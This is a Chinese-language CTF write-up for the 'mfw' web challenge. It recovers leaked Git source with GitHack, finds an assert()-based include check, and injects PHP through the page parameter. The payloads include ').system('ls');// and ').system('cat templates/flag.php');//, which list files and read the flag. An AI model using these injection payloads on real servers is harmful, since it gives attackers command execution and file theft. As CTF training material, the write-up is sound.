










# mfw
## 题目描述
暂无
##  思路
http://220.249.52.133:58498  
点开题目链接：  
  
随便点点，发现了有用的东西：  
  
考虑 Git 源码泄露，查看网页源码，又发现了一个小提示：  
  
但是访问 http://220.249.52.133:58498/?page=flag 里面没什么有用的信息，因此，继续沿着 Git 源码泄露的思路走，访问如下：  
http://220.249.52.133:58498/.git/  
  
尝试 git 代码失败后，查资料发现了一个 GitHack 的工具，因此用该工具从该网站下载源码：  
```shell
python GitHack.py http://220.249.52.133:58498/.git/
```
得到如下文件：（有个疑问，为什么下载下来的文件和我在网站上看到的文件不一样呢？）  
  
在 templates 文件夹里有一个 flag.php 文件：  
  
点开发现没什么有用的东西：  
  
只好审计一下其他代码，首先看 index.php 的代码，比查看网页源码多的部分如下：  
  
首先 GET 一个 page，然后与前缀文件夹 templates/ 拼接，并与后缀 .php 拼接，访问最终的页面。代码中不允许输入的字符中包含连续的两个点，否则就返回错误。这段代码中只用黑名单过滤了两个点，我们可以想办法绕过。我们可以让它先行闭合，如：?page=').phpinfo();//，这样，在进行过滤时，便成了：  
```php
assert("strpos('templates/').phpinfo();//,'..')===false") or die();
```
如此，会把 ,'..')===false" 这些后面的东西注释掉（这里尝试了 # 注释，会显示网页无法正常运作，不知道是什么原因），因此得以查看 phpinfo 信息：  
  
我们再来改动 phpinfo 部分，去列出文件列表即可，这里需要查看网页源码，才能看到输出的东西：  
view-source:http://220.249.52.133:58498/?page=‘).system(“ls”);//  
  
进入 templates 中，看看有什么文件：  
view-source:http://220.249.52.133:58498/?page=‘).system(“ls templates/”);//  
  
看看 flag.php 里有什么：  
view-source:http://220.249.52.133:58498/?page=’).system(”cat templates/flag.php“);//  
  
竟然发现了 flag……

***
看 wp，发现还可以如此构造 payload：  
http://220.249.52.133:58498/?page=‘.system(“ls”).'  
```php
assert("strpos('templates/'.system("ls").','..')===false") or die();
```
这里没太理解原理，为啥这样构造也行？  
